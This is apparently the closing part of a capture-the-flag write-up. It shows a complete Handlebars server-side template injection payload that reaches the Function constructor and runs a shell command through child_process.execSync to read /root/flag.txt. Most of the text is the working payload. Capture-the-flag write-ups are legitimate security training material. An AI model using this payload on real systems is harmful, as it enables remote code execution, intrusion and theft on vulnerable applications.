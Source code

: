 ```
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![flag](./Screenshots/bikeflag2.png)

Flag is there. Now is time to see it.

Final payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
```